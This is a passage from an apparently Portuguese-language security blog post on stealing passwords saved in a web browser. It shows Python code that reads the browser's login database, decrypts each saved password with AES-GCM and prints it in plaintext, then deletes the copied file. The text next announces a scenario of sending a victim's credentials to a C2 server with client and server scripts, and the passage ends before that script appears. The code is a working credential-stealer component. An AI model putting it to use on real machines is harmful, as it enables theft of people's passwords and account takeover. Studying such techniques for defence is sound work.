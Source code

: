 ```python
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for index,login in enumerate(cursor.fetchall()):
        url = login[0]
        username = login[1]
        ciphertext = login[2]
        if(url!="" and username!="" and ciphertext!=""):

            iv = ciphertext[3:15]
            encrypted_password = ciphertext[15:-16]
            cipher = AES.new(secret_key, AES.MODE_GCM, iv)
            decrypted_pass = cipher.decrypt(encrypted_password)
            decrypted_pass = decrypted_pass.decode()

            print("URL: %s\nUser Name: %s\nPassword: %s\n"%(url,username,decrypted_pass))

    cursor.close()
    conn.close()
    os.remove("Loginvault.db")
```

Executando o script, é possível extrair as minhas credenciais salvas no navegador, nesse caso o meu acesso ao site do duolingo

![](/assets/images/BCred/bc-04.png){: .align-center}

# Exemplo prático de uso

Para mostrar um possível uso prático, vamos imaginar um cenário onde o atacante deseja extrair as credenciais da vítima e enviar essas informações para um C2

Nesse caso é necessário criar 2 script: um client e um server

## Client

Nesse exemplo, eu vou utilizar o mesmo script python usado anteriormente, somente vou adicionar algumas funções a mais, como por exemplo, uma função para identificar os navegadores presentes na máquina da vitima e a requisição que vai enviar as informações encontradas para o servidor

O script final ficou assim:
